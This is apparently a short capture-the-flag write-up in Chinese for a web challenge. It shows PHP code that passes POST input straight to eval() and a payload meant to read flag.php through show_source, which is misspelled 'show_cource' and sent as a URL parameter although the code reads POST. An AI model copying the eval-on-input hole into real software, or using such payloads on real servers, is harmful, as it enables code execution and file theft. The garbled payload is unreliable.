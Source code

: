 


## web60 无回显3
**题目描述**

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**

      禁用了file\_*get\_contents()，但没禁用show\_source()*

---
**payload**

```php
url/?c=show_cource('flag.php');
```
---
